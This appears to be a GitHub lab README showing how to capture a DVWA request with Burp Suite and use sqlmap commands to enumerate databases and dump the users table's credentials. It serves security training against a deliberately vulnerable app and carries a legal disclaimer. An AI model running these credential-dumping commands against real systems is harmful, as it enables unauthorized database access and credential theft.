 # SQL-Injection-with-SQLMap-Burp-Suite-on-DVWA



##  Overview
This project demonstrates how to perform **SQL Injection** using **SQLMap** and **Burp Suite** on **Damn Vulnerable Web Application (DVWA)** to enumerate and exploit databases.

---
## 🛠 Requirements
- **Kali Linux** (or any OS with Burp Suite & SQLMap installed)
- **Burp Suite Community Edition**
- **SQLMap**
- **DVWA (Damn Vulnerable Web App)** running on **Metasploitable 2**

---
## Steps to Exploit SQL Injection

### Capture the Request using Burp Suite
1. Open **Burp Suite** and enable **Intercept** in the **Proxy** tab.
2. In your browser, navigate to `http://<DVWA-IP>/dvwa/vulnerabilities/sqli/`.
3. Enter any value in the input field and submit the form.
4. Burp Suite will capture the **HTTP Request**.
5. Right-click the request → **Save item** as `request.txt`.

###  Use SQLMap to Test SQL Injection
Run the following command in your terminal:
```sh
sqlmap -r request.txt --dbs --batch
```
- `-r request.txt` → Uses the saved HTTP request.
- `--dbs` → Lists available databases.
- `--batch` → Auto confirms prompts.

###  Enumerate Tables & Columns
Once databases are listed, pick `dvwa` and enumerate tables:
```sh
sqlmap -r request.txt -D dvwa --tables
```
Then, retrieve columns of the `users` table:
```sh
sqlmap -r request.txt -D dvwa -T users --columns
```

###  Dump User Credentials
```sh
sqlmap -r request.txt -D dvwa -T users --dump
```
This extracts stored usernames and passwords from DVWA.

---
## Expected Output
- Lists available **databases**.
- Extracts **tables and columns** from `dvwa`.
- Dumps **user credentials** stored in the database.

---
## Legal Disclaimer
This project is for **educational purposes only**. Do not test SQL injection on unauthorized systems. Always obtain permission before conducting security tests.

---
##  Screenshots



![Screenshot 2025-02-11 190857](https://github.com/user-attachments/assets/a4f9863c-5948-4ebc-a75b-9d8c1f54f671)
![Screenshot 2025-02-11 191207](https://github.com/user-attachments/assets/9002e8b5-2b3d-4ce4-8d89-5e9bd4bf3411)
![Screenshot 2025-02-11 192130](https://github.com/user-attachments/assets/9cf8dc65-305e-479b-91ef-ca8537e96089)


For more References vist:
- [SQLMap Documentation](https://sqlmap.org/)
- [Burp Suite Official Site](https://portswigger.net/burp)

